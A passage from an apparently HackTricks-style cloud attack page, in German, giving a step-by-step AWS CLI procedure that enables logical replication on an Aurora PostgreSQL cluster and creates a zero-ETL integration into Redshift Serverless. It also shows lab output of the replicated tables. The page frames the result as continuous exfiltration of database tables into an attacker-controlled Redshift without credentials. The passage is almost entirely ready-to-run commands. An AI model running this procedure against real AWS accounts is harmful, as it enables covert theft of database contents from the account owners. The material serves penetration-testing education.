aws rds wait db-instance-available --region $REGION --db-instance-identifier ${CLUSTER_ID}-instance-1
# Cluster parameter group for zero‑ETL
aws rds create-db-cluster-parameter-group --region $REGION --db-cluster-parameter-group-name apg16-ztl-zerodg \
--db-parameter-group-family aurora-postgresql16 --description "APG16 zero-ETL params"
aws rds modify-db-cluster-parameter-group --region $REGION --db-cluster-parameter-group-name apg16-ztl-zerodg --parameters \
ParameterName=rds.logical_replication,ParameterValue=1,ApplyMethod=pending-reboot \
ParameterName=aurora.enhanced_logical_replication,ParameterValue=1,ApplyMethod=pending-reboot \
ParameterName=aurora.logical_replication_backup,ParameterValue=0,ApplyMethod=pending-reboot \
ParameterName=aurora.logical_replication_globaldb,ParameterValue=0,ApplyMethod=pending-reboot
aws rds modify-db-cluster --region $REGION --db-cluster-identifier $CLUSTER_ID \
--db-cluster-parameter-group-name apg16-ztl-zerodg --apply-immediately
aws rds reboot-db-instance --region $REGION --db-instance-identifier ${CLUSTER_ID}-instance-1
aws rds wait db-instance-available --region $REGION --db-instance-identifier ${CLUSTER_ID}-instance-1
SRC_ARN=$(aws rds describe-db-clusters --region $REGION --db-cluster-identifier $CLUSTER_ID --query 'DBClusters[0].DBClusterArn' --output text)
```
</details>

<details>
<summary>4) Erstelle die zero‑ETL-Integration von RDS</summary>
```bash
# Include all tables in the default 'postgres' database
aws rds create-integration --region $REGION --source-arn "$SRC_ARN" \
--target-arn "$RS_NS_ARN" --integration-name ztl-demo \
--data-filter 'include: postgres.*.*'
# Redshift inbound integration should become ACTIVE
aws redshift describe-inbound-integrations --region $REGION --target-arn "$RS_NS_ARN"
```
</details>

<details>
<summary>5) Replizierte Daten in Redshift materialisieren und abfragen</summary>
```bash
# Create a Redshift database from the inbound integration (use integration_id from SVV_INTEGRATION)
aws redshift-data execute-statement --region $REGION --workgroup-name ztl-wg --database dev \
--sql "select integration_id from svv_integration"  # take the GUID value
aws redshift-data execute-statement --region $REGION --workgroup-name ztl-wg --database dev \
--sql "create database ztl_db from integration '<integration_id>' database postgres"
# List tables replicated
aws redshift-data execute-statement --region $REGION --workgroup-name ztl-wg --database ztl_db \
--sql "select table_schema,table_name from information_schema.tables where table_schema not in ('pg_catalog','information_schema') order by 1,2 limit 20;"
```
</details>

Im Test beobachtete Hinweise:
- redshift describe-inbound-integrations: Status ACTIVE for Integration arn:...377a462b-...
- SVV_INTEGRATION zeigte integration_id 377a462b-c42c-4f08-937b-77fe75d98211 und den Zustand PendingDbConnectState vor der DB-Erstellung.
- Nach CREATE DATABASE FROM INTEGRATION zeigte das Auflisten der Tabellen das Schema ztl und die Tabelle customers; eine Abfrage auf ztl.customers lieferte 2 Zeilen (Alice, Bob).

Auswirkung: Kontinuierliche nahezu‑Echtzeit exfiltration ausgewählter Aurora PostgreSQL-Tabellen in vom Angreifer kontrolliertes Redshift Serverless, ohne Datenbank-Anmeldeinformationen, Backups oder Netzwerkzugriff auf den Quell-Cluster zu verwenden.


{{#include ../../../../banners/hacktricks-training.md}}

